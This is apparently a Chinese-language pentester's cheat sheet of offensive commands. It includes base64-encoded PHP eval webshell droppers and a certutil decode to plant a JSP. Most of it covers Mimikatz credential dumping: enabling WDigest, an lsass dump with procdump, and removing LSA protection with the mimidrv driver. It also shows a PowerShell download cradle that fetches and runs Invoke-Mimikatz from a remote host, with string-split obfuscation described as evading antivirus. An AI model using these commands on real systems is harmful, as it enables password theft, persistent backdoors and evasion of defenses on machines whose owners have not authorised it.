整理收集渗透中用到的命令。

# java命令执行

如下编码网站：

https://ares-x.com/tools/runtime-exec/
https://r0yanx.com/tools/java_exec_encode/

手动编码操作:

```
bash -c {echo,cGluZyAxMjcuMC4wLjE7ZWNobyAxID50ZXN0LnR4dA==}|{base64,-d}|{bash,-i}
```



> bash -c "echo cGluZyAxMjcuMC4wLjE7ZWNobyAxID50ZXN0LnR4dA==" | base64 -d | bash -i 可以在Linux上直接执行。
> 
> bash -c {echo,cGluZyAxMjcuMC4wLjE7ZWNobyAxID50ZXN0LnR4dA==}|{base64,-d}|{bash,-i} 无法在Linux上直接执行。整个命令被大括号包裹，这样bash会将其中的内容视为一个命令组，而不是一个完整的命令。在Linux中，大括号通常用于构建命令组，而不是表示字符串的边界。因此，这个命令会导致语法错误，因为大括号被认为是非法字符。

# 命令执行，定位资源文件写文件回显

## Linux

```
find /|grep index.js|while read f;do sh -c "whoami" >$(dirname $f)/test.txt;done
```

> find /: 这部分命令使用 find 命令来递归地搜索整个文件系统。/ 表示从根目录开始搜索。
> 
> | grep index.js: 将 find 命令的输出通过管道 | 传递给 grep 命令。grep 命令用于在文本中搜索指定模式（正则表达式），这里的模式是 "index.js"。这样做的目的是筛选出包含 "index.js" 字符串的文件。
> 
> while read f; do ... done: 这是一个 while 循环，它会逐行读取 grep 命令的输出（即包含 "index.js" 的文件路径），并将每一行保存在变量 f 中。
> 
> `sh -c "whoami" > $(dirname $f)/test.txt`: 这部分是在循环中执行的操作。sh -c "whoami" 是一个子 shell 命令，它会执行 whoami 命令来获取当前用户的用户名。`$(dirname $f) `会提取变量 $f 所代表文件的目录路径。然后，> 操作符将 whoami 命令的输出重定向到目录路径下的 test.txt 文件中，如果文件不存在则会创建，如果已存在则会覆盖内容。
> 
> 综上，这个命令的作用是在整个文件系统中搜索包含 "index.js" 字符串的文件，然后对每一个找到的文件执行 whoami 命令，将输出写入到该文件所在目录的 test.txt 文件中。

## Windows(注意盘符)

```
for /r D:\ %i in (index.js*) do whoami > %i/../test.txt
```

> 作用是在指定目录（D:\）及其子目录下搜索所有以 "index.js" 开头的文件，并将当前用户的用户名写入到每个匹配文件所在目录的 test.txt 文件中。
> 
> `for /r D:\ %i in (index.js*)`: 这部分命令使用 for 循环来遍历指定目录（D:\）及其子目录下的所有文件。/r 表示递归搜索。%i 是循环变量，用于存储当前文件的路径。(index.js*) 是文件名的模式，它会匹配以 "index.js" 开头的任何文件名，* 表示任意后缀。
> 
> `do whoami > %i/../test.txt`: 这部分是在循环中执行的操作。whoami 命令用于获取当前用户的用户名。> 是重定向操作符，将 whoami 命令的输出重定向到指定文件。%i 是当前文件的路径，%i/../test.txt 表示将 test.txt 文件创建在当前文件所在目录的上一级目录中。
> 
> 因此，整个命令的作用是在指定目录及其子目录下搜索以 "index.js" 开头的文件，并在每个文件所在目录的上一级目录中创建一个名为 test.txt 的文件，其中写入当前用户的用户名。

# 写shell

在Windows中，批处理需要转义字符主要有"&","|","<",">"等等，转义字符为"^"

在Linux中，需要转义字符主要是单引号或者双引号 对于单引号，我们将其替换成为`\47`即可，而对于双引号，则使用\22进行转义。

windows命令行最大长度为8191,16进制是113898。echo写文件时注意长度。

## 方法一

```
set /p=qaxnb<nul>d:\1d13.txt
```



> 这个命令是一个 Windows 批处理命令，它执行以下操作：
> 
> `set /p=qaxnb<nul>`：这个部分有两个主要作用。首先，set /p 命令用于从用户输入中获取一个值并将其赋给变量。在这里，/p 表示“prompt”的意思，表示等待用户输入。但是，在 <nul 之前的 qaxnb 并不是提示信息，它实际上是将 qaxnb 这个值赋给变量 %qaxnb%。<nul 的作用是将输入重定向到空设备（nul），这样就不需要用户手动输入任何内容，而是从空设备读取。
> 
> `d:\1d13.txt`：这部分表示将变量 %qaxnb% 的值写入到文件 d:\1d13.txt 中。
> 
> 因此，整个命令的作用是将字符串 "qaxnb" 写入到文件 d:\1d13.txt 中。

## 方法二

```
echo qaxnb>1we.txt
```



## 追加内容

```
echo qaxcnm>>1we.txt
```



## 不换行追加内容

```
set /p="123123">>1we.txt
```



> `set /p="123123"`：这个部分将字符串 "123123" 存储到一个无名的变量中。
> 
> `>>1we.txt`：这部分将前面的字符串追加到文件 "1we.txt" 中。>> 是追加重定向操作符，它会在文件的末尾添加内容而不覆盖原有的内容。

## 规避空格

如果无法输入空格.

```
echo.123>>a.txt
echo,123>>a.txt
type;a.txt
```



## 写特殊字符很多的文件，可以用certutil编码再还原

如下还原：

```
certutil -f -decode 111.txt C:\\111.jsp
certutil -decodehex 111.txt C:\\111.jsp
```



> `certutil -f -decode 111.txt C:\\111.jsp`：这个命令会对名为 "111.txt" 的文件进行解码，并将解码后的内容保存到名为 "C:\111.jsp" 的文件中。-f 标志表示强制覆盖目标文件（如果存在的话）。这个命令的作用是将 "111.txt" 文件的内容进行解码，并将结果保存到 "C:\111.jsp" 文件中。
> 
> `certutil -decodehex 111.txt C:\\111.jsp`：这个命令也是对名为 "111.txt" 的文件进行解码操作，不过它使用了 -decodehex 参数，这表示要求解码器将输入文件视为十六进制格式进行解码。然后，解码后的内容会被保存到 "C:\111.jsp" 文件中。
> 
> 这两个命令的区别在于解码器对待输入文件的方式：第一个命令默认将输入文件视为 **Base64** 编码的文本文件进行解码，而第二个命令将输入文件视为**十六进制**格式的数据进行解码。

## linux下base64

```
echo PD9waHAgZXZhbCgkX1BPU1Rbd2hvYW1pXSk7Pz4=|base64 -d > /var/www/html/shell.php
```



## php的

```
echo \<\?php eval\(\@\$_POST\[1\]\)\; \?\> >1.php
```

## 绕过空格

```
> < <> 重定向符
%09(需要php环境)
${IFS}
$IFS$9
{cat,flag.php}
%20
%09
```

# windows打包目录

```
powershell -Command "Compress-Archive -Path E:\update\ -DestinationPath E:\test.zip"
```



> `powershell`：这是命令行中启动 PowerShell 的关键词。
> 
> `-Command`：这个标志告诉 PowerShell 解释器，后面的字符串是一个要执行的 PowerShell 命令。
> 
> `"Compress-Archive -Path E:\update\ -DestinationPath E:\test.zip"`：这个字符串是要执行的 PowerShell 命令。它调用了 Compress-Archive cmdlet，并传递了两个参数：
> 
> - `-Path E:\update\`：这是要压缩的文件或文件夹的路径。在这个例子中，路径是 E 盘下的 update 文件夹。
> 
> - `-DestinationPath E:\test.zip`：这是压缩后的归档文件的保存路径和文件名。在这个例子中，归档文件将保存在 E 盘的根目录下，并命名为 test.zip。
> 
> 因此，这个命令的作用是将 E 盘下的 update 文件夹中的内容压缩成一个名为 test.zip 的 Zip 归档文件，该文件将保存在 E 盘的根目录下。

# Mimikatz

mimikatz可以从内存中提取明文密码、哈希、PIN 码和 kerberos 票证。 mimikatz 还可以执行哈希传递、票证传递或构建黄金票证。 https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20220919

## 一条命令

```
.\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```



> 提升权限 `privilege::debug` : 通过debug获得mimikatz程序的特殊操作,调试权限允许某人调试他们本来无法访问的进程。例如，作为用户运行的进程在其令牌上启用了调试权限，可以调试作为本地系统运行的服务。
> 
> 抓取明文密码 `sekurlsa::logonpasswords `: 在windows2012以上的系统不能直接获取明文密码了，需要配置相关注册表等操作。

## 控制台执行多条命令，用log防止进程崩溃，数据丢失

```
mimikatz # privilege::debug
mimikatz # log
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest
```

> tspkg，wdigest，kerberos：这个就是账户对应的明文密码了。有的时候这三个对应的也不是全部都是一样的，需要看服务器是什么角色。

## msf中执行命令

```
mimikatz_command -f sekurlsa::logonPasswords full
mimikatz_command -f sekurlsa::wdigest
```

## 注册表开启wdigest,08r2后默认关闭。需要目标注销，重新登录。2016需要重启。

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t
REG_DWORD /f /d 1
```

## 绕过杀软执行mimikatz

### powershell

`https://github.com/PowerShellMafia/PowerSploit/raw/master/Exfiltration/Invoke-Mimikatz.ps1`

cmd下执行

```
C:\Users\test\Desktop>powershell -exec bypass "import-module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz"
```

> 这个命令启动 PowerShell，然后通过 -exec bypass 参数绕过了 PowerShell 的执行策略（Execution Policy），允许执行未签名的脚本。然后，命令执行了以下操作：
> 
> `import-module .\Invoke-Mimikatz.ps1`：这个命令会导入当前目录下的名为 "Invoke-Mimikatz.ps1" 的 PowerShell 脚本文件。这个脚本通常用于执行 Mimikatz 工具中的功能，Mimikatz 是一个知名的密码抓取工具，常用于渗透测试和安全评估。
> 
> `Invoke-Mimikatz`：一旦 "Invoke-Mimikatz.ps1" 被导入，这个命令会执行该脚本中的 Invoke-Mimikatz 函数或命令。这通常会触发 Mimikatz 工具的执行，从而执行相关的操作，例如提取系统中的凭据信息。
> 
> 总的来说，这个命令旨在执行一个 PowerShell 脚本（Invoke-Mimikatz.ps1），以执行 Mimikatz 工具中的相关功能。

也可以远程加载

```
powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.101/Invoke-Mimikatz.ps1');Invoke-Mimikatz
```

> `IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.101/Invoke-Mimikatz.ps1');`：这个部分利用 PowerShell 的 IEX （Invoke-Expression）命令，执行了从指定 URL 下载的 PowerShell 脚本。具体来说：
> 
> `(New-Object Net.WebClient).DownloadString('http://192.168.0.101/Invoke-Mimikatz.ps1')` 这部分使用 Net.WebClient 对象下载了位于指定 URL 的 PowerShell 脚本的内容。
IEX 命令将下载的脚本内容作为字符串执行，相当于在当前 PowerShell 会话中直接执行了从网络下载的脚本内容。
Invoke-Mimikatz：一旦远程脚本被下载并执行，这个命令会调用脚本中的 Invoke-Mimikatz 函数或命令。这通常会触发 Mimikatz 工具的执行，从而执行相关的操作，例如提取系统中的凭据信息。
> 
> 总的来说，这个命令旨在通过远程下载的方式执行一个 PowerShell 脚本（Invoke-Mimikatz.ps1），以执行 Mimikatz 工具中的相关功能。

但是powershell被360拦截



简单混淆就bypass了

```
powershell -c " ('IEX '+'(Ne'+'w-O'+'bject Ne'+'t.W'+'ebClien'+'t).Do'+'wnloadS'+'trin'+'g'+'('+'1vchttp://'+'192.168.0'+'.101/'+'Inv'+'oke-Mimik'+'a'+'tz.'+'ps11v'+'c)'+';'+'I'+'nvoke-Mimika'+'tz').REplaCE('1vc',[STRing][CHAR]39)|IeX"
```

### 导出lsass进程离线读密码

1.安装procdump64.exe

`https://learn.microsoft.com/zh-cn/sysinternals/downloads/procdump`

2.从procdump64.exe里导出1.dmp

```
procdump64.exe -accepteula -ma lsass.exe 1.dmp
```

也可以在任务管理器中操作



3.然后将1.dmp下载到本地

```
mimikatz_2.1_64.exe "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit
```



## Bypass LSA Protection

在渗透过程中，获得一台windows机器权限之后，很重要一个环节就是抓密码。 但是在使用mimikatz抓取系统账号密码时，有时运维人员会开启一些防护措施，导致mimikatz抓取失败或异常。 下面主要介绍bypass LSA Protection获取密码。

> LSA（Local Security Authority）保护是一项Windows安全功能，旨在提高系统的安全性，特别是针对LSASS（Local Security Authority Subsystem Service）进程的保护。
> 
> LSASS 是负责验证用户登录信息、分配安全令牌以及执行身份验证和授权操作的关键系统进程。由于其关键性，LSASS 成为了黑客攻击的目标之一。攻击者可能尝试通过各种手段获取 LSASS 进程的访问权限，以执行恶意活动，例如获取用户凭据或执行提权攻击。
> 
> 为了增强对 LSASS 进程的保护，Windows 引入了 LSA 保护功能。LSA 保护通过将 LSASS 进程标记为受保护进程，并限制对其内存和数据的访问，以防止未经授权的访问或恶意操作。LSA 保护还可以与其他安全功能结合使用，例如 Credential Guard 和 Device Guard，以提供更全面的安全性。

自Windows 8.1 开始为LSA提供了额外的保护（LSA Protection），以防止读取内存和不受保护的进程注入代码。保护模式要求所有加载到LSA的插件都必须使用Microsoft签名进行数字签名。 **在LSA Protection保护模式下，mimikatz运行 sekurlsa::logonpasswords抓取密码会报错。**

查询是否启用：`reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa`

### 1.开启 LSA Protection

测试环境：Windows 10 X64

可以通过注册表开启LSA Protection，注册表位置：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` 新建-DWORD（32）值，名称为 RunAsPPL,数值为 00000001，然后重启系统生效。

```
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "RunAsPPL" /t REG_DWORD /d "00000001" /f
```

> 用于在 Windows 注册表中添加一个键值，其作用是设置系统中的“RunAsPPL”参数。具体而言：
> 
> - HKLM\SYSTEM\CurrentControlSet\Control\Lsa 是注册表中的一个键路径，它指向 Windows 系统的 LSA（Local Security Authority）子系统设置。
> 
> - /v "RunAsPPL" 指定要添加或修改的值名称，这里是“RunAsPPL”。
> 
> - /t REG_DWORD 表示值的数据类型是 DWORD（双字）。
> 
> - /d "00000001" 指定要设置的 DWORD 值的数据。在这里，值被设置为 1，这意味着启用了“RunAsPPL”功能。
> 
> - /f 标志表示强制执行，即使已存在同名的键或值也要进行操作。
> 
> “RunAsPPL” 是 Windows 中的一项安全设置，用于启用 Protected Process Light （PPL）特性，这是一种提高系统安全性的功能。启用后，这些进程会以更高的权限级别运行，以增强系统的安全性。



验证LSA是否以保护模式启动，查看系统日志，事件id为12-LSASS.exe作为受保护的进程启动：



### 2.LSA Protection运行下的sekurlsa::logonpasswords

在开启LSA Protection时，mimikatz运行 sekurlsa::logonpasswords会报错 “ERROR kuhl_m_sekurlsa_acquireLSA；Handle on memery”

```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```



### 3.lsadump::sam   bypass

mimikatz 运行 lsadump :: sam 从磁盘上的SAM读取凭据，可成功pypass LSA Protection，读取到用户哈希

```
mimikatz # privilege::debug
mimikatz # token::whoami
mimikatz # token::elevate
mimikatz # lsadump::sam
```



### 4.mimidrv.sys   bypass

mimikatz其中的mimidrv.sys驱动程序，可从lsass.exe进程中删除LSA保护，成功bypass LSA Protection。

```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
```

